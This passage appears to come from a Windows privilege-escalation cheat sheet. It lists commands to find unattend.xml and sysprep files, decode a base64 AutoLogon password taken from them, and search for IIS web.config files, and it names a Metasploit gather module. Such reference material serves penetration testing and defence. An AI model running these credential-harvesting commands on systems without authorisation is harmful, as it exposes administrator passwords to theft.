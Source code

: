 ### Read a value of a certain sub key

```powershell
REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList
```

### Passwords in unattend.xml

Location of the unattend.xml files.

```powershell
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Display the content of these files with `dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul`.

Example content

```powershell
<component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
    <AutoLogon>
     <Password>U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo==</Password>
     <Enabled>true</Enabled>
     <Username>Administrateur</Username>
    </AutoLogon>

    <UserAccounts>
     <LocalAccounts>
      <LocalAccount wcm:action="add">
       <Password>*SENSITIVE*DATA*DELETED*</Password>
       <Group>administrators;users</Group>
       <Name>Administrateur</Name>
      </LocalAccount>
     </LocalAccounts>
    </UserAccounts>
```

Unattend credentials are stored in base64 and can be decoded manually with base64.

```powershell
$ echo "U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo="  | base64 -d 
SecretSecurePassword1234*
```

The Metasploit module `post/windows/gather/enum_unattend` looks for these files.

### IIS Web config

```powershell
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```
